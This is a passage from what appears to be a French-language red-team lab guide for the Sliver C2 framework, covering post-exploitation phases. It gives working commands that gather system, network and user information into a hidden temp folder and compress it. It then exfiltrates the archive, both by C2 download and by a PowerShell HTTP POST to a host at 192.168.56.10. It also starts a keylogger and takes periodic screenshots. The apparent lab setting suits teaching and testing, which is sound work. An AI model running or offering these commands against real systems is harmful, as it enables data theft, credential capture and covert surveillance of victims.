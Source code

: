 ### Étape 5.3 : Collecte d'Informations Système
```bash
# Sauvegarder la configuration système
sliver (session) > execute "systeminfo > C:\Windows\Temp\.system\system_info.txt"
sliver (session) > execute "ipconfig /all > C:\Windows\Temp\.system\network_config.txt"
sliver (session) > execute "net user > C:\Windows\Temp\.system\users.txt"

# Historique des commandes
sliver (session) > execute "doskey /history > C:\Windows\Temp\.system\command_history.txt"
```

### Étape 5.4 : Compression et Exfiltration
```bash
# Compresser les données collectées
sliver (session) > execute "powershell Compress-Archive -Path 'C:\Windows\Temp\.system\*' -DestinationPath 'C:\Windows\Temp\.system\collected_data.zip'"

# Exfiltrer via Silver
sliver (session) > download "C:\Windows\Temp\.system\collected_data.zip" ~/project-m1/evidence/exfiltrated_data.zip

# Exfiltration alternative via HTTP POST (simulation)
sliver (session) > execute "powershell Invoke-WebRequest -Uri 'http://192.168.56.10:8000/upload' -Method POST -InFile 'C:\Windows\Temp\.system\collected_data.zip'"
```

---

## 🕵️ Phase 6 : Actions de Surveillance Avancées

### Étape 6.1 : Capture de Frappes (Keylogger)
```bash
# Démarrer le keylogger Silver
sliver (session) > keylogger start

# Laisser fonctionner quelques minutes
sleep 300

# Récupérer les frappes
sliver (session) > keylogger dump
sliver (session) > keylogger stop
```

### Étape 6.2 : Captures d'Écran
```bash
# Prendre des captures d'écran périodiques
sliver (session) > screenshot
sleep 60
sliver (session) > screenshot
sleep 60
sliver (session) > screenshot
```
